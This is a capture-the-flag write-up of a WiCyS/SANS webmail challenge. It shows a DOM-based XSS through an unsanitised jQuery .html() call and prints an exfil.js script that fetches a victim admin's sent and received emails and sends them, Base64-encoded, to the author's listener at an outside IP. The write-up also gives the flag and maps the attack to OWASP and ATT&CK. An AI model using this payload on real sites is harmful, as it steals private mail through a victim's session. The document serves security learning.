## Intro 
This CTF was run by WiCyS and SANS as part of the Security Training Scholarship. Being selected for Tier 1 and Tier 2 was so fun and rewarding. I'm writing about two challenges I was stuck on for almost 40 hours. At first, they looked impossible. I almost wanted to quit and move on, but I didn't. I tried so many approaches that I can't even recall them all now, and when I finally got the right flags, I was on cloud nine. Let's dive deep!

This challenge picks up right where the previous one (Webmail Q1. Hack the Henchman) left off.

## Challenge

What is the Unix epoch time (as a number) when the villain plans to execute his plan?



## How I found the flag

1. After I logged into henchman2's email account, there were two emails where the characters talked about a vulnerability and the evil plan. I could also see users' names, email addresses, and whether they were admins (Admin=1). One of the emails had details that looked suspicious numbers (1607962818). Other one had a hint that admin users automatically click links sent to them. That gave me a clue that I probably needed to get an admin to trigger something so I could see what was going on in their emails.

    
    
    

2. Next, I checked the page source of "home.html", and a couple of functions stood out as clues:

    - "GetEmails()" calls "/api/sentemails" and "/api/receivedemails" to load sent and received emails. The email data actually comes from if I could run code inside an admin's session.

    ```javascript
    function GetEmails() {
      PostData("/api/sentemails", {}, function(response){
      PostData("/api/receivedemails", {}, function(response){
    ```

    - ProcessUrl() checks URL parameters like contacts, searchtype, and searchstring, and puts searchstring into #searchmessage using .html(). In jQuery, .html() treats the string as actual HTML rather than plain text. I realized if searchstring gets placed into the DOM this way, I might be able to inject an HTML element like an "img" with an onerror handler to run JavaScript.

    ```javascript
    function ProcessUrl(event) {
            var url = new URL(window.location.href);
            console.log(url.search)
            if (url.searchParams.get("contacts")) {
            mowdal.style.display = "flex";
            var searchstring = url.searchParams.get("searchstring");
            var searchtype = url.searchParams.get("searchtype");
            if (searchtype.length) {
                $("#searchstring").val(searchstring);
                $('#searchtype').val(searchtype);
                PostData("/api/usersearch", {"searchtype":searchtype,"searchstring":searchstring}, function(response){
                $("#searchmessage").html("A search of '"+searchstring+"'' with type '"+searchtype+"' resulted in the following results:");
                if (response.request) {
                    var html = ""
                    for (var i = 0; i < response.data.length; i++) {
                    html += "<tr><td>"+response.data[i][0]+"</td><td>"+response.data[i][1]+"</td><td>"+response.data[i][2]+"</td><td>"+response.data[i][3]+"</td><td>"+response.data[i][4]+"</td></tr>"
                    }
                    $("#contactbody").html(html);
                } else {
                    AlertToast(response.data);
                }
                });
            }
            } else {
            mowdal.style.display = "none";
            }
        }
    ```

    > DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an “unexpected” manner. That is, the page itself (the HTTP response that is) does not change, but the client side code contained in the page executes differently due to the malicious modifications that have occurred in the DOM environment. - https://community.owasp.org/attacks/DOM_Based_XSS / https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html

3. Trying to put everything inside an inline "onerror" attribute got messy fast, and the quotes and syntax kept breaking.

    
    
    
    
    
    

4. Instead, I hosted an external "exfil.js" file using "python3 -u -m http.server 8080" and loaded it via "script src="http://34.106.195.134:8080/exfil.js"" inside "searchstring" (along with "contacts=true" and "searchtype=email"). That made it much easier to edit and test without fighting a long inline string every time.

    - Running "python3 -u -m http.server 8080" hosts "exfil.js" on port 8080 and prints incoming requests in real time ("-u" disables output buffering so I could see hits right away).

    

   - Inside "exfil.js", "fetch()" calls "/api/sentemails" and "/api/receivedemails" using the target's active session, encodes the response text with Base64 ("btoa") and "encodeURIComponent" so special characters don't break the URL, and sends it back to my listener via "?sent=" and "?recv=".

    ```javascript
    fetch('/api/sentemails')
    .then(function(r) { return r.text(); })
    .then(function(t) {
        return fetch('http://34.106.195.134:8080/?sent=' + encodeURIComponent(btoa(unescape(encodeURIComponent(t)))));
    });

    fetch('/api/receivedemails')
    .then(function(r) { return r.text(); })
    .then(function(t) {
        return fetch('http://34.106.195.134:8080/?recv=' + encodeURIComponent(btoa(unescape(encodeURIComponent(t)))));
    });
    ```

5. Once I sent the link and it got triggered, I saw "GET /exfil.js (200)" and then "GET /?recv=" hit my listener with the encoded data. I took the encoded output into "CyberChef" and tried decoding it. I used "URL Decode" to get clean Base64 string, and then "From Base64" to turn it back into readable text. There was the execution time for the plan.

    
    

    
    


**Flag: 2208988800**


## OWASP and MITRE ATT&CK Mapping

### OWASP

- **A03:2021 – Injection (DOM-based Cross-Site Scripting):** In "home.html", "ProcessUrl()" takes untrusted query parameters ("searchstring", "searchtype", "contacts") and inserts "searchstring" into "#searchmessage" via jQuery's ".html()" without sanitization or encoding, allowing an attacker to inject HTML/JavaScript script or event handlers that runs in the victim's browser session.

- **A01:2021 – Broken Access Control / Sensitive Data Exposure via Client-Side Execution:** Because JavaScript executed inside an authenticated admin's session can call internal mail endpoints ("/api/sentemails" and "/api/receivedemails"), unauthorized access to another user's mailbox contents was achieved through the victim's active browser context.

### MITRE ATT&CK

- **T1566 (Phishing):** Delivering a crafted URL inside an email to a target account, so opening/clicking the link triggers the payload.

- **T1059.007 (Command and Scripting Interpreter: JavaScript):** Executing injected JavaScript (loading "exfil.js" from port "8080") inside the victim's webmail session to query mail APIs and exfiltrate the encoded response data.

## Wrap-up

My overall progress on the CTF was 96%. Getting to this point after days of trial and error felt really rewarding, and I learned so much along the way.
Thank you, WiCyS and SANS, for this amazing opportunity!



